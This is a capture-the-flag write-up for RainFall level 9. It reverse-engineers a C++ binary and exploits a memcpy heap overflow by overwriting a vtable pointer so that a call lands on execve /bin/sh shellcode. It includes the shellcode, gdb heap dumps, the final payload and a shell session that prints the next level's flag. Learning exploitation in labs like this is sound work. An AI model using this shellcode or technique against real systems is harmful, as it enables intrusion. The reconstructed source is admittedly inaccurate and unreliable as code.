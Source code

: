 # Level 9

<h3>source.c</h3>

```console
class N {
  private:
    char annotation[100];
    int nb;

  public:
    N(int nb) {
      this->nb = nb;
    }

    int operator+(N &other) {
      return (this->nb + other.nb);
    }

    int operator-(N &other) {
      return (other.nb - this->nb);
    }

    void *setAnnotation(char* str) {
      return (memcpy(this->annotation, str, strlen(str)));
    }
}

int main(int argc, char** argv) {
  if (argc < 1) {
    _exit(1);
  }

  N *l_var1 = new N(5);
  N *l_var2 = new N(6);

  l_var1->setAnnotation(argv[1]);
  return(**l_var2(l_var2, l_var1)); // this im not sure
}
```

<h3>Analysis</h3>

In this level, the program is written as c++ code and it was quite hard to reverse it, so this might not be super accurate

We can see that there is no `system()` or the `.pass` file being read anywhere, so we might need to use `shellcode` to spawn a shell

The only clue that we can exploit is the `memcpy()` which is vulnerable to buffer overflow as well,

and call to `edx` on line main + 159 which is gotten by dereferrencing [esp+0x10] (l_var2) twice

```console
0x0804867c <+136>:  mov    eax,DWORD PTR [esp+0x10]             copy [esp+0x10] (l_var2) into eax
0x08048680 <+140>:  mov    eax,DWORD PTR [eax]                  copy the content of eax (l_var2) into eax -> *l_var2
0x08048682 <+142>:  mov    edx,DWORD PTR [eax]                  copy the content of eax (*l_var2) into edx -> **l_var2
[...]
0x08048693 <+159>:  call   edx                                  call function edx
```

Each time a dereferrence occoured, means that it will read the content reside on that memory location, so it will looks like this `l_var2[0][0]` or `l_var2`

Our target this time will be to rewrite the address pointed by `l_var2` so that when the program call `edx`, it will be calling to our shell code instead

<h3>Exploit</h3>

First lets get the `shellcode` from `level2` which is 28 bytes

```console
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```

Next lets visualize the memory area of `l_var1` and `l_var2`

```console
0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>      -> 1st new() return memory address to eax
0x0804861c <+40>:	mov    ebx,eax                    -> put a break point here to get the address to that pointer
[...]
0x08048639 <+69>:	call   0x8048530 <_Znwj@plt>      -> 2nd new() return memory address to eax
0x0804863e <+74>:	mov    ebx,eax                    -> put a break point here to get the address to that pointer

(gdb) break *0x0804861c
Breakpoint 1 at 0x804861c
(gdb) break *0x0804863e
Breakpoint 2 at 0x804863e
(gdb) r aaaa
Starting program: /home/user/level9/level9 aaaa

Breakpoint 1, 0x0804861c in main ()
(gdb) x $eax
0x804a008:	0x00000000                              -> l_var1 will point to this address 0x0804a008
(gdb) continue
Continuing.

Breakpoint 2, 0x0804863e in main ()
(gdb) x $eax
0x804a078:	0x00000000                              -> l_var2 will point to this address 0x0804a078
```
Now we have the address for both variable, lets look at the heap to visualize it better

```console
[...]
0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
0x0804867c <+136>:	mov    eax,DWORD PTR [esp+0x10]           -> put a break point here to see the state of the heap after the call of memcpy inside setAnnotation happened

(gdb) break *0x0804867c
Breakpoint 3 at 0x804867c
(gdb) continue
Continuing.

Breakpoint 3, 0x0804867c in main ()
(gdb) x/32wx 0x0804a008
0x804a008:	0x08048848	0x61616161	0x00000000	0x00000000    -> (0x0804a008) memory area of l_var1, started with 0x08048848 (_ZTV1N+8) to indicate this is N class
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000005	0x00000071    -> we can see the private int 5 is being written here, but im not sure what 0x71 is
0x804a078:	0x08048848	0x00000000	0x00000000	0x00000000    -> (0x0804a078) memory area of l_var2, started with 0x08048848 (_ZTV1N+8) to indicate this is N class
```

The heap memory management is abit different then what we used to see in a `c code`

There is no metadata block between the 2 allocated area, and both memory area located side by side each other

Base on this we can conclude that by adding the offset of `108 bytes`, we could reach the start of `l_var2` and start overwriting the data

Now we need to solve the double dereferrence problem for `l_var2`

```console
0x0804867c <+136>: mov eax,DWORD PTR [esp+0x10] -> copy [esp+0x10] (l_var2) to eax,            now eax = 0x0804a078 (The address point to the start of l_var2 memory area)
0x08048680 <+140>: mov eax,DWORD PTR [eax]      -> copy the content of eax (l_var2) to eax     now eax = 0x08048848 (The address point to virtual table for N class)
0x08048682 <+142>: mov edx,DWORD PTR [eax]      -> copy the content of eax (*l_var2) to edx    now eax = [0x08048848] (The virtual table for N class)
```

What we need to do now is to overwrite `0x0804a078` to point to another address, we could make it point to `l_var1 + 4` (`0x804A00c`) which is the start of the str buffer for `l_var1`

For the second dereferrence, we need to write the starting address of our shellcode into `l_var1 + 4` (`0x804A00c`), so we should put `l_var1 + 8` (`0x804a010`)

Now we can put write out `shellcode` in the `l_var1 + 8` (`0x804A010`) and when the program call `edx`, it will be dereferrence twice and ultimately reach our `shellcode`

Final payload:
`python -c "print '\x10\xa0\x04\x08' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'a' * 76 + '\x0c\xa0\x04\x08'"`

```console
level9@RainFall:~$ ./level9 `python -c "print '\x10\xa0\x04\x08' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'a' * 76 + '\x0c\xa0\x04\x08'"`
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```